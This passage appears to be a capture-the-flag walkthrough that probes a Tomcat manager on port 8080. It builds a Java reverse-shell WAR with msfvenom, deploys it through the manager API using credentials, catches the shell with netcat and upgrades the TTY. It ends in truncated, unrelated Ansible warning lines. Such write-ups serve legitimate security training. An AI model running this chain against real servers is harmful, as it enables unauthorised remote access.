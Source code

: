 <img width="1173" height="481" alt="image" src="https://github.com/user-attachments/assets/7c35b1b8-fe35-4bf1-bc05-ab427402da6b" />

<br>
<br>
<h2>:8080/manager/status</h2>

<img width="1162" height="306" alt="image" src="https://github.com/user-attachments/assets/14074aa7-24f1-4717-9703-c94c87cc88cc" />

<br>
<br>

<img width="1256" height="595" alt="image" src="https://github.com/user-attachments/assets/e7a5e415-340f-48cd-b1ca-5dda8ee630f7" />

<p>
  
- clicked Complete Server Status</p>

<img width="1257" height="675" alt="image" src="https://github.com/user-attachments/assets/3d8ac05c-e66b-4124-b45d-3f3ed9b50106" />

<br>
<br>

<h2>:8080/manager/status/all</h2>

<img width="1260" height="324" alt="image" src="https://github.com/user-attachments/assets/2f928c93-c346-4c47-9c40-c86f5b6bc409" />

<br>
<br>

```bash
:~/Backtrack# msfvenom -p java/shell_reverse_tcp lhost=xx.xxx.xx.xx lport=1234 -f war > shell.war
Payload size: 13030 bytes
Final size of war file: 13030 bytes
```

```bash
:~/Backtrack# curl --upload-file shell.war -u 'tomcat:******************' 'http://xx.xxx.xx.xxx:8080/manager/text/deploy?path=/rosana'
OK - Deployed application at context path [/rosana]
```

```bash
:~/Backtrack# curl http://xx.xxx.xx.xxx:8080/rosana
```

```bash
:~/Backtrack# nc -nlvp 1234
Listening on 0.0.0.0 1234
Connection received on xx.xxx.xx.xxx 46024
id
uid=1002(tomcat) gid=1002(tomcat) groups=1002(tomcat)
python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@Backtrack:/$ ^Z
[1]+  Stopped                 nc -nlvp 1234
:~/Backtrack# stty raw -echo; fg
nc -nlvp 1234

tomcat@Backtrack:/$ export TERM=xterm
tomcat@Backtrack:/$
```


[WARNING]: provided hosts list is empty, only localhost is available. Note that
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-